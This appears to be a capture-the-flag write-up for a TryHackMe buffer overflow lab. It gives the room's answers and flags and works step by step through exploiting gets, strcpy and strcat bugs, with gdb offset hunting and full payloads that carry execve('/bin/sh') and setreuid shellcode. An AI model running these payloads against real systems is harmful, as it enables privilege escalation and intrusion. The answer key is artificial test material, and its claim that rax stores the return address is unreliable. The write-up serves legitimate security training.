 # Buffer Overflows

## Task 2 Process Layout

#### Where is dynamically allocated memory stored?

{% hint style="success" %}
`heap`
{% endhint %}

#### Where is information about functions(e.g. local arguments) stored?

{% hint style="success" %}
`stack`
{% endhint %}

## Task 3 x86-64 Procedures

#### what direction does the stack grown(l for lower/h for higher)

{% hint style="success" %}
`l`
{% endhint %}

#### what instruction is used to add data onto the stack?

{% hint style="success" %}
`push`
{% endhint %}

## Task 4 Procedures Continued

#### What register stores the return address?

{% hint style="success" %}
`rax`
{% endhint %}

## Task 6 Overwriting Variables

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv) {
  volatile int variable = 0;
  char buffer[14];

  gets(buffer);

  if(variable != 0) {
      printf("You have changed the value of the variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

#### What is the minimum number of characters needed to overwrite the variable?

```bash
python -c 'print "A" * 15' | ./int-overflow
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 06-48-29.png>)

{% hint style="success" %}
`15`
{% endhint %}

## Task 7 Overwriting Function Pointers

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

void special() {
    printf("this is the special function\n");
    printf("you did this, friend!\n");
}

void normal() {
    printf("this is the normal function\n");
}

void other() {
    printf("why is this here?");
}

int main(int argc, char **argv) {
    volatile int (*new_ptr) () = normal;
    char buffer[14];
    gets(buffer);
    new_ptr();
}
```

#### Invoke the special function()

```bash
gdb -q ./func-pointer
(gdb) info address normal
(gdb) info address special
(gdb) set disassembly-flavor intel 
(gdb) disassemble main
(gdb) break *main + 40
(gdb) run
(gdb) x/30wx
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 06-53-18.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-07 06-56-30.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-07 06-59-12.png>)

```bash
python -c 'print "A" * 14 + "\x67\x05\x40"' | ./func-pointer 
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 07-00-53.png>)

## Task 8 Buffer Overflows

```c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string) {
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv) {
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```

```bash
wget --recursive --no-parent --no-host-directories \
     --reject "index.html*",gif,png http://10.6.9.176/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

```bash
gdb -q ./buffer-overflow
gdb > pattern_create 200 pattern.txt
gdb > run $(cat pattern.txt)
gdb > pattern_search
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 07-34-30.png>)

```bash
./buffer-overflow $(python -c 'print "\x90" * 80 + "\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05" + "\x90" * (152 - 80 - 40) + "\x80\xe2\xff\xff\xff\x7f"')
cat secret.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 08-29-04.png>)

```bash
pwn shellcraft -f d amd64.linux.setreuid 1002
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 08-28-31.png>)

```bash
./buffer-overflow $(python -c 'print "\x90" * 80 + "\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05"  + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * (152 - 80 - 14 - 27) + "\x80\xe2\xff\xff\xff\x7f"')
cat secret.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 08-27-35.png>)

{% hint style="success" %}
`omgyoudidthissocool!!`
{% endhint %}

## Task 9 Buffer Overflow 2

#### Use the same method to read the contents of the secret file!

```c
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string) {
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv) {
    concat_arg(argv[1]);
}
```

```bash
gdb -q ./buffer-overflow-2
> pattern_create 200 pattern.txt
> run $(cat pattern.txt)
> pattern_search
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 08-44-20.png>)

```bash
> break *concat_arg + 105
> run $(python -c 'print "\x90" * 80 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * (163 - 80 - 27) + "deadbeef"')
> x/30wx $rsp
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 08-45-58.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-07 08-47-50.png>)

```bash
./buffer-overflow-2 $(python -c 'print "\x90" * 80 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * (163 - 80 - 27) + "\x70\xe2\xff\xff\xff\x7f"')
cat secret.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 08-49-16.png>)

```bash
pwn shellcraft -f d amd64.linux.setreuid 1003
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 08-51-57.png>)

```bash
./buffer-overflow-2 $(python -c 'print "\x90" * 80 + "\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05" + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * (163 - 80 - 14 - 27) + "\x70\xe2\xff\xff\xff\x7f"')
cat secret.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-07 08-54-52.png>)

{% hint style="success" %}
`wowanothertime!!`
{% endhint %}

## Reference

```bash
./buffer-overflow $(python -c 'print "\x90" * 80 + "\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05"  + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * (152 - 80 - 14 - 27) + "\x80\xe2\xff\xff\xff\x7f"')
```

{% embed url="http://shell-storm.org/shellcode/files/shellcode-806.php" %}

{% embed url="https://www.aldeid.com/wiki/TryHackMe-Buffer-Overflows#[Task_8]_Buffer_Overflows" %}
